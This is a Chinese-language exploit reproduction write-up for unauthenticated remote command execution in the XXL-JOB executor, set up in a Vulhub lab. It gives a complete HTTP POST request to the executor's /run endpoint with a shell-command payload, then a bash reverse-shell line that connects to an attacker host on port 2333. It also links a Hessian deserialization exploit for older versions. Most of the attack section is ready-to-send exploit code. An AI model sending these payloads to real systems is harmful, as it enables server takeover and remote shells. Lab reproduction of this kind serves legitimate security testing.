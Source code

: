 # XXL-JOB executor 未授权访问漏洞

## 漏洞描述

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

Vulhub执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![image-20220302232736378](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022327467.png)

`touch /tmp/awesome_poc`已成功执行：

![image-20220302232818916](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022328972.png)

另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。

### 反弹shell

发送数据包，执行反弹shell命令：

```
"glueSource": "bash -i >& /dev/tcp/192.168.174.128/2333 0>&1 "
```

![image-20220302232933519](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022329606.png)

监听2333端口，接收反弹shell：

![image-20220302232912024](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022329112.png)